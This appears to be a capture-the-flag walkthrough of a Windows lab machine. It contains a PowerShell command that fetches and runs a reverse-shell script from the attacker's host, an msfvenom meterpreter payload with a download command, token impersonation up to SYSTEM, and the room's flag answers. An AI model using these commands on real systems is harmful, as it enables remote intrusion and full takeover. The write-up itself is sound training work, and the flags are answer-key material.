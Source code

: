 # ALFRED

## BASIC INFO
```
export IP=10.10.8.255

80/tcp   open  http               Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Site doesn't have a title (text/html).
3389/tcp open  ssl/ms-wbt-server?
|_ssl-date: 2020-05-03T02:33:53+00:00; -40s from scanner time.
8080/tcp open  http               Jetty 9.4.z-SNAPSHOT
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
```
## INITIAL ACCESS

> - **How man ports are open?**
>> 3

> - **What is the username and password for the log in panel (in the format username:password)**
>> admin:admin\
The login page is located at port 8080

> - **Find a feature of the tool that allows you to execute commands on the underlying system. When you find this feature use this command to get th reverse shell on your machine and run it. `powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port`.**
>> No answer needed

The feature is under view, project, configure tab.

> - **What is the user.txt flag?**
>> 79007a09481963edf2e1321abd9ae2a0

## SWITCHING SHELLS
Creating payload with msfvenom
```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.8.8.177 LPORT=9001 -f exe -o shell.exe
```

> - **What is the final size of the exe payload that you generated?**
>> 70832


```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.8.8.177:8000/shell.exe','shell.exe')"

Then just run the command
shell
```

## PRIVILEGE ESCALATION

> - **To check which tokens are available, enter the list_tokens -g. We can see that the BUILTIN\Administrators token is available. Use the impersonate_token "BUILTIN\Administrators" command to impersonate the Administrators token. What is the output when you run the getuid command?**
>> NT AUTHORITY\SYSTEM

> - **read the root.txt file at C:\Windows\System32\config**
>> dff0f748678f280250f25a45b8046b4a

_**Remember to migrate to spoolsv.exe or services.exe first or else you can't find the flag**_

![badges](https://tryhackme-badges.s3.amazonaws.com/dianchia.png)